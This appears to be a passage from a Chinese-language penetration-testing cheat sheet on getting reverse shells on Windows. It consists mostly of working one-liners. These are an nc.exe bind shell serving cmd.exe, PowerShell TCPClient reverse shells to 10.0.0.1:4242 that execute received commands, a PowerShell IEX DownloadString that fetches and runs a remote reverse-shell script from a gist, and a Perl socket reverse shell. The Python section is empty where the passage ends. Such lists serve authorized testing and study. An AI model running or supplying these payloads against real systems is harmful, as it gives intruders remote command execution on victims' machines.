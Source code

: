 ### Windows下回弹shell

**文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

**工具**
- [lukechilds/reverse-shell](https://github.com/lukechilds/reverse-shell) - 自动尝试反弹 shell

**nc**

`路径\nc.exe -l -p 端口 -t -e 路径\cmd.exe`

```
c:\RECYCLER\nc.exe -l -p 1234 -t -e c:\RECYCLER\cmd.exe
```

**powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

**perl**
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
```powershell
```